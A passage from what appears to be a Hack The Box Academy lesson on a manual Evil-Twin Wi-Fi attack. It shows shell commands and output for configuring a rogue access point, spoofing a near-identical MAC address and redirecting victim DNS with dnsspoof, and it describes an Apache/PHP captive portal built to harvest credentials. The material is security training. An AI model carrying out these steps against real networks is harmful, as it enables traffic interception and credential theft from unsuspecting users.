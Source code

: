 COMMAND   PID            USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
systemd-r 231 systemd-resolve   13u  IPv4  36129      0t0  UDP localhost:domain 
systemd-r 231 systemd-resolve   14u  IPv4  36130      0t0  TCP localhost:domain (LISTEN)
</code></pre>
<pre><code class="language-shell-session">[!bash!]$ sudo systemctl stop systemd-resolved
</code></pre>
<p>The next step is to configure the valid IP address for the interface that will host the fake access point (<code>wlan1</code>).</p>
<pre><code class="language-shell-session">[!bash!]$ sudo ifconfig wlan1 192.168.0.1/24
[!bash!]$ ifconfig wlan1
wlan1: flags=4099&lt;UP,BROADCAST,MULTICAST&gt;  mtu 1500
        inet 192.168.0.1  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<p>Additionally, we need to ensure that IP forwarding is enabled on the machine to allow proper routing of traffic between the fake access point and the internet. We can do this by running:</p>
<pre><code class="language-shell-session">[!bash!]$ echo 1 &gt; /proc/sys/net/ipv4/ip_forward
</code></pre>
<p>Next, we will change the MAC address of the <code>wlan1</code> interface to closely resemble that of the legitimate access point. This can be done using the <code>macchanger</code> tool.</p>
<p>We won't make the MAC address identical, but instead, we'll make it very similar. For example, if the real MAC address is <code>D4:C1:8B:79:AD:45</code>, we can change it to <code>D4:C1:8B:79:AD:44</code> (noticing the change from 45 to 44). This subtle modification helps the fake AP appear more legitimate while maintaining its distinct identity.</p>
<pre><code class="language-shell-session">[!bash!]$ ifconfig wlan1 down
[!bash!]$ macchanger -m D4:C1:8B:79:AD:44 wlan1
Current MAC:   02:00:00:00:03:00 (unknown)
Permanent MAC: 02:00:00:00:03:00 (unknown)
New MAC:       D4:C1:8B:79:AD:44 (unknown)
[!bash!]$ ifconfig wlan1 up
[!bash!]$ ifconfig wlan1
wlan1: flags=4099&lt;UP,BROADCAST,MULTICAST&gt;  mtu 1500
        inet 192.168.0.1  netmask 255.255.255.0  broadcast 192.168.0.255
        ether d4:c1:8b:79:ad:44  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<p>Lastly, we start <code>dnsspoof</code> on the <code>wlan1</code> interface to redirect all traffic from the victim's device to our attacker's IP address. This step allows us to intercept and monitor the client's communications.</p>
<pre><code class="language-shell-session">[!bash!]$ sudo dnsspoof -i wlan1

dnsspoof: listening on wlan1 [udp dst port 53 and not src 192.168.0.1]
</code></pre>
<hr/>
<h3>3. Setup the captive portal</h3>
<p>For our manual Evil-Twin attack setup, we will use an Apache server with PHP to capture credentials. This setup provides flexibility, allowing us to easily switch between different templates for our attack. Additionally, by utilizing the Apache rewrite engine and redirecting all traffic to our web server, we can ensure that users are prompted to log in to our network. The goal is to lure users into clicking the sign-in prompt, which will direct them to our captive portal, where their credentials can be captured.</p>
<p><img alt="wpa2" src="https://academy.hackthebox.com/storage/modules/291/wpa2/captive.png"/></p>
<div class="alert alert-primary fade show" role="alert">